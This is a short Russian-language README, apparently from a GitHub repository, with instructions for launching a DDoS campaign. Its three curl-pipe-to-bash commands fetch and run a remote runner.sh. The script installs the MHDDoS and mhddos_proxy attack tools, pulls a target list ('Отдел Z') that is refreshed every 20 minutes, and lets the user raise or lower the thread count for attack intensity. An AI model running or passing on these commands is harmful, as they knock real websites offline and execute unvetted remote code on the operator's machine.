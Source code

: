 # Запустить скрипт

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/runner.sh | bash
Автоматически устанавливает git python3, pip, mhddos_proxy, MHDDoS, расширенный список proxy и все зависимости.

Работает с базой сайтов Отдел Z.

База целей обновляется каждые 20 минут.

Во время запуска всегда проверяет и загружает обновления mhddos_proxy и MHDDoS.

Рекомендуется использовать на Ubuntu 20.04. Но должно работать на всех Ubuntu и Debian производных, а также в WSL2.

Для остановки скрипта несколько раз нажмите CTRL + C, или закройте окно с терминалом.

❕ Изменение интенсивности
Если скрипт очень замедляет ПК, или наоборот Вы имеете неиспользованные ресурсы, можно снизить, или наоборот повысить интенсивность работы скрипта. Для этого надо управлять параметром threads. По умолчанию threads = 1000.

Чтобы снизить нагрузку на систему, попробуйте использовать threads = 500

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/runner.sh | bash -s -- 500
Чтобы загрузить систему больше, попробуйте использовать threads = 2000

curl -s https://raw.githubusercontent.com/gruzilkinnn/dev_bash/master/runner.sh | bash -s -- 2000
